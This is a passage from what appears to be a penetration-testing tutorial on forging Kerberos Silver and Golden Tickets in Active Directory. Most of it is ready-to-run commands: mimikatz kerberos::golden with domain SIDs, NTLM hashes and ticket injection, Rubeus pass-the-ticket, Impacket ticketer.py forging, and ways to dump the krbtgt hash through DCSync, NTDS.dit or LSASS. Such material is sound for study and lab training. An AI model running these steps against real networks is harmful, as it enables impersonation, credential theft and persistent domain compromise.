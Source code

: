 
mimikatz “kerberos::golden /admin:LukeSkywalker /id:1106 /domain:lab.adsecurity.org /sid:S-1-5-21-1473643419-774954089-2222329127 /target:adsmswin2k8r2.lab.adsecurity.org /rc4:d7e2b80507ea074ad59f152a1ba20458 /service:cifs /ptt” exit

As I mentioned above let’s say we have the NTLM hash of a Service Account (MSSQL) we can create a Silver Ticket for said User and then start issue SQL Commands to a Database providing the Database accepts Kerberos authentication (Most likely will)

mimikatz.exe
prvilege::debug

kerberos::golden /id:1106 /domain:m0chanAD.local /sid:S-1-5-21-1473643419-774954089-2222323452 /target:sqlserver.m0chanAD.local /rc4:d7e2b80507ea074ad59f152a1ba20458 /service:MSSQLSvc /user:m0chanFake /ptt


As you can see in the above examples I have applied the /ptt flag which will automatically inject the ticket into my current session but we can choose to output it to a file with the /ticket flag which will output a ticket.kirbi file by default unless directly specified.

We can then use this kirbi ticket for a certain level of persistence and/or inject them with Rubeus which Iw ill display below.

        Injecting Ticket with Rubeus

We can use Rubeus to inject Silver Tickets into our session by 2 methods, .kirbi file or a Base64 of said .kirbi file which I find very useful.

PS > .\Rubeus.exe ptt /ticket:C:\Temp\silver.kirbi

PS > .\Rubeus.exe ptt /ticket:BASE64BLOBHERE



From Linux

        ticketer.py

$  python ticketer.py -domain-sid S-1-5-21-1473643419-774954089-2222323452 -nthash d7e2b80507ea074ad59f152a1ba20458 -domain m0chanAD.local -spn cifs/workstation.m0chanAD.local m0chan


#This will export a .ccache file which can be imported by executing the below command

KRB5CCNAME=/scripts/m0chan.ccache 

We can then pass the -K switch through with any other Impacket scripts and it will automatically use the cached kerberos ticket, such as PSEXec, WMIExec




                        Godlen Tickets

    we are not targeting Computer Hash's or User Hash's but instead the hash of the krbtgt account which can typically only be retrieved from pwning the Domain Controller and dumping the NTDS.dit file and/or Dumping LSAAS on the DC and putting it through Mimikatz

     You can get this NTLM hash from one of the options below

    Mimikatz on Domain Controller (lsadump::dcsync and/or sekurlsa::logonpasswords all)
    Dumping NTDS.dit
    DCSync
